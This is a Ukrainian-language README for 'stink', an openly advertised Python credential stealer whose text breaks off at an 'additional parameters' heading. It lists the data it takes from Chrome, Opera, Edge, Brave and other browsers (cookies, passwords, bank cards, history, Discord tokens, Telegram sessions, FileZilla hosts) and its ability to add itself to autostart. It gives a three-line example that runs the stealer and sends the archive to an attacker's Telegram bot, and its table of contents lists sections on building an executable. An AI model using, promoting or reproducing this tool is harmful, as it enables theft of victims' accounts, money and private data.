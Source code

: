 # stink

Стилер всього лише у 3 рядки з відправкою до Telegram.

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Додаткові параметри](#Додаткові-параметри)
* [Налаштування Telegram бота](#Налаштування-Telegram-бота)
  * [Отримання токена](#Отримання-токена)
  * [Отримання айді](#Отримання-айді)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
3. Підтримка мультипрофілів браузера.
4. Відправка зібраних даних архівом в Telegram.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.

## Приклад використання
### Стандартний
```python
from stink import Stealer

if __name__ == '__main__':
    Stealer(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
### Додаткові параметри
